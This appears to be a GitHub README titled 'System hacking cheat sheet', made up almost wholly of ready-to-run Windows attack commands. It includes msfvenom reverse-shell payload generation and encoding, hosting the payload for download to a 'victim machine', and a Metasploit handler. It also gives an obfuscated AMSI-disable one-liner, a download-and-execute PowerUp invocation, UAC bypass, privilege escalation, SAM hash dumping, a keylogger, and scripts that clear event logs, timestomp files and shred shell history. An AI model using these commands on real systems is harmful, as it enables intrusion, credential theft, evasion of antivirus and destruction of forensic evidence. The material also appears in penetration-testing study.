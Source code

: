 ## System hacking cheat sheet

### Getting shell with msfvenom and use PowerUp.ps1 to escalate privileges

#### Generate payload and encode using msfvenom

```sh
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=[Port in the Host Machine] -o [Output Path/shellcode.exe]
```

```sh
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=[IP Address of Host Machine] -f exe > Desktop/Backdoor.exe
```
[msfvenom documentation](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

#### Upload shellcode using a local server

```sh
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp [PATH]/shellcode.exe /var/www/html/share

service apache2 start
```

Download it to the victim machine `[IP Address of Host Machine]/share/shellcode.exe`.

#### Using handler in metasploit to connect to the payload

```sh
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST [IP Address of Host Machine]
set LPORT [Port in the Host Machine]
exploit 
```

#### Upload PowerUp.ps1

```sh
upload [PATH]/PowerUp.ps1 PowerUp.ps1
```

#### PowerUp.ps1

##### Check all vulnerabilities

```sh
shell
poweshell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
[PowerUp.ps1 tutorial](https://recipeforroot.com/advanced-powerup-ps1-usage/)

`bypass` is used to bypass PowerShell’s execution policy.

For disable [AMSI](https://docs.microsoft.com/en-us/archive/blogs/poshchap/security-focus-defending-powershell-with-the-anti-malware-scan-interface-amsi):

```sh
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

###### Excute PowerUp.ps1 without upload the script

```sh
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/PowerUp/master/PowerUp.ps1'); Invoke-AllChecks"
```

##### Escalate privileges

```sh
Invoke-ServiceAbuse -Name 'Name of the vulnerable service'
```

### Attemp to bypass Windows UAC protection via the FodHelper Registry Key usind bypassuac_fodhelper exploit

```sh
use exploit/windows/local/bypassuac_fodhelper
```

If it works, in some cases we can already escalate privileges with some techniques like `getsystem`.

### Attemp to elevate privileges with Meterpreter

```sh
getsystem -t 1
```

### Obtain password hashes in the SAM file using Metasploit (root requiered)

```sh
run post/windows/gather/smart_hashdump
```

It uses the service [Named Pipe Impersonation (In Memory/Admin) Technique](https://securityintelligence.com/identifying-named-pipe-impersonation-and-other-malicious-privilege-escalation-techniques/).

### Clear the events logs that require administrative or root privileges using Meterpreter (root requiered)

```sh
clearev
```

### Clear all event viewer logs using wevtutil (Windows)

```sh
for /F "tokens=*" %1 in ('wevtutil.exe el') DO wevtutil.exe cl "%1"
```

```sh
@echo off

FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo All Event Logs have been cleared!
goto theEnd

:do_clear
echo clearing %1
wevtutil.exe cl %1
goto :eof

:noAdmin
echo Current user permissions to execute this .BAT file are inadequate.
echo This .BAT file must be run with administrative privileges.
echo Exit now, right click on this .BAT file, and select "Run as administrator".  
pause >nul

:theEnd
Exit
```

### Securely delete a chunk of data by overwriting it to prevent its possible recovery using in-built Windows tool (Windows)

```sh
cipher /w:[Drive or Folder or File Location] 
```

### Avoid bash history

#### Disable the BASH shell from saving the history (Linux)

```sh
export HISTSIZE=0
```

#### Make bash history unreadable (Linux)

```sh
shred ~/.bash_history
```

```sh
shred ~/.bash_history && cat /dev/null > .bash_history
```

#### Leave no trace of MACE attributes when reading or modifying files using Meterpreter

#### To view the mace attributes of a file (Windows)

```sh
timestomp [FILE] -v
```

#### Change MACE attributes (Windows)

```sh
timestomp [FILE] -m "mm/dd/yyyy hh:mm:ss"
```

### Kylogger using Meterpreter

#### Start keylogger

```sh
keyscan_start
```

#### Read keylogger log

```sh
keyscan_dump
```

## License

© 2021 [javierizquierdovera.com](https://javierizquierdovera.com)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`